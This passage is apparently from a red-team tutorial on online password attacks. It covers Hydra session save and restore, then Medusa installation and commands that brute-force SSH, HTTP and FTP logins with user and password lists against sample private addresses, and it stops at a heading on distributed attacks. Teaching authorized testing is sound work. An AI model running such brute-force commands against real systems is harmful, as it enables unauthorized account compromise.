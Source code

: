 #### Session Management

```bash
# Create a restorable session
hydra -R -l admin -P passwords.txt 192.168.1.100 ssh

# Restore the previous session
hydra -I 192.168.1.100 ssh
```

Hydra remains the premier tool for online password attacks, providing red teamers with a powerful means of testing and validating credential security across a wide range of services. Its flexibility, protocol support, and performance make it indispensable for authorized security assessments.

## Medusa: Parallel Brute Forcing

Medusa is a speedy, massively parallel login brute-forcer that supports numerous protocols. While similar to Hydra, Medusa focuses on parallelism and modular design, making it particularly effective for high-performance brute force attacks.

### Installation

```bash
# On Debian/Ubuntu-based systems
sudo apt update
sudo apt install medusa

# From source
git clone https://github.com/jmk-foofus/medusa.git
cd medusa
./configure
make
sudo make install
```

### Basic Usage

```bash
# Basic syntax
medusa -h [target host] -u [username] -p [password] -M [module]

# Example: SSH brute force
medusa -h 192.168.1.1 -u admin -P passwords.txt -M ssh

# Example: Multiple users and passwords
medusa -h 192.168.1.1 -U users.txt -P passwords.txt -M http

# Control parallelism
medusa -h 192.168.1.1 -U users.txt -P passwords.txt -M ftp -t 10 -T 5
```

### Example: Distributed Password Attacks
